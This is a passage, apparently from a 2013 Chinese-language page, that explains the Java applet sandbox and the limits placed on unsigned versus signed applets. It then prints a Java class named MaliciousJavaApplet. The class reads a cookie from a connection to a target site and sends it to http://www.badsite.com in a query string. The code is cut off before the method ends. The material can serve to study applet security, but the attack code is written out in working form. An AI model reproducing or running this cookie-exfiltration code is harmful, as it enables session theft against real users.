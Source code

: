 ```
> 时间：2013-03-20T14:27:23.663

未签名的小程序

未签名的小程序可以执行以下操作：

他们可以与他们来自的主机建立网络连接。他们可以使用 java.applet.AppletContext 类的 showDocument 方法轻松地显示 HTML 文档。他们可以在同一页面上调用其他小程序的公共方法。从本地文件系统（从用户的 CLASSPATH 中的目录）加载的小程序没有通过网络加载的小程序所具有的限制。他们可以读取安全系统属性。有关安全系统属性的列表，请参阅系统属性。使用 JNLP 启动时，未签名的小程序还可以执行以下操作： 它们可以在客户端打开、读取和保存文件。他们可以访问共享的系统范围的剪贴板。他们可以访问打印功能。他们可以在客户端上存储数据，决定应如何下载和缓存小程序，等等。有关使用 JNLP API 开发小程序的更多信息，请参阅 JNLP API。未签名的小程序不能执行以下操作：

他们无法访问客户端资源，例如本地文件系统、可执行文件、系统剪贴板和打印机。他们无法连接到任何第三方服务器（除了它源自的服务器之外的任何服务器）或从任何第三方服务器检索资源。他们无法加载本机库。他们无法更改 SecurityManager。他们无法创建 ClassLoader。他们无法读取某些系统属性。有关禁止的系统属性列表，请参阅系统属性。签名小程序

已签名的小程序没有对未签名的小程序施加的安全限制，并且可以在安全沙箱之外运行。

```
import java.awt.*;
import java.io.*;
import java.net.*;
public class MaliciousJavaApplet extends java.applet.Applet {
    TextArea messageLog = new TextArea(4, 40);
    public void init() {
      setLayout(new BorderLayout());
      add("Center", messageLog);
    }
    public void start() {
      try {
                             URL url = new URL("http://www.targetsite.net/default.html");
                             URLConnection connection;
                             String inputLine;
                             BufferedReader inReader;
          connection = url.openConnection();
                             connection.setAllowUserInteraction(false);
                             connection.setDoOutput(true);
                             messageLog.append("Request Property
"+connection.getRequestProperty("cookie")+"\n");
                             messageLog.append("File read from URL " + url + ":\n");
          inReader = new BufferedReader(
                   new InputStreamReader(connection.getInputStream()));
          while (null != (inputLine = inReader.readLine())) {
             messageLog.append(inputLine + "\n");
          }
          inReader.close();
                             messageLog.append("Request Property
"+connection.getRequestProperty("cookie")+"\n");
                             String cookie;
                             cookie = connection.getRequestProperty("cookie");
                             URL url2 = new
URL("http://www.badsite.com/default.html?cookie="+cookie);
                             URLConnection connection2;
                             String inputLine2;
                             BufferedReader inReader2;
          connection2 = url2.openConnection();
                             connection2.setAllowUserInteraction(false);
                             connection2.setDoOutput(true);
                             inReader2 = new BufferedReader(
                   new InputStreamReader(connection2.getInputStream()));
          while (null != (inputLine2 = inReader2.readLine())) {
             messageLog.append(inputLine2 + "\n");
          }
          inReader2.close();
      }